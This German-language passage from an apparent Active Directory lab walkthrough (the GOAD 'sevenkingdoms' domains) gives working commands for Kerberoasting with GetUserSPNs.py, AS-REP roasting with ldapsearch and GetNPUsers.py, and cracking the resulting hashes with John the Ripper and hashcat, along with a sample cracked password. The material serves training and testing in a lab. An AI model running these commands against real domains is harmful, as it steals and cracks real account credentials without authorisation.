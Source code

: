 #### Service Principal Names (SPNs) extrahieren
```bash
# Gegen WINTERFELL Domain (north.sevenkingdoms.local)
GetUserSPNs.py north.sevenkingdoms.local/hodor:hodor -dc-ip 192.168.20.11 -outputfile kerberoast.txt

# Gegen KINGSLANDING Domain (sevenkingdoms.local)
GetUserSPNs.py sevenkingdoms.local/user:pass -dc-ip 192.168.20.10 -outputfile kerberoast_main.txt

# Gegen ESSOS Domain (essos.local)
GetUserSPNs.py essos.local/user:pass -dc-ip 192.168.20.12 -outputfile kerberoast_essos.txt
```

**Gefundene SPNs (Beispiel):**
```
HTTP/eyrie.north.sevenkingdoms.local                 sansa.stark
CIFS/thewall.north.sevenkingdoms.local               jon.snow
HTTP/thewall.north.sevenkingdoms.local               jon.snow
MSSQLSvc/castelblack.north.sevenkingdoms.local       sql_svc
MSSQLSvc/castelblack.north.sevenkingdoms.local:1433  sql_svc
```

#### Hash-Cracking mit John the Ripper
```bash
# Standard Dictionary Attack
john --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.txt

# Mit Custom Rules
john --wordlist=/usr/share/wordlists/rockyou.txt --rules=ActiveDirectory kerberoast.txt

# Ergebnisse anzeigen
john --show kerberoast.txt
```

**Erfolgreiche Cracks:**
```
jon.snow:iknownothing
```

### 3.2 AS-REP Roasting

#### Benutzer ohne Kerberos Pre-Authentication finden
```bash
# User-Liste aus LDAP extrahieren (falls möglich)
ldapsearch -x -H ldap://192.168.20.11 -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=user)" sAMAccountName | grep sAMAccountName | cut -d: -f2 | tr -d ' ' > users.txt

# AS-REP Roasting durchführen
GetNPUsers.py north.sevenkingdoms.local/ -dc-ip 192.168.20.11 -usersfile users.txt -outputfile asrep_hashes.txt
```

#### Hashcat für AS-REP Hashes
```bash
# AS-REP Hash-Format: 18200
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt

# Mit erweiterten Regeln
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```
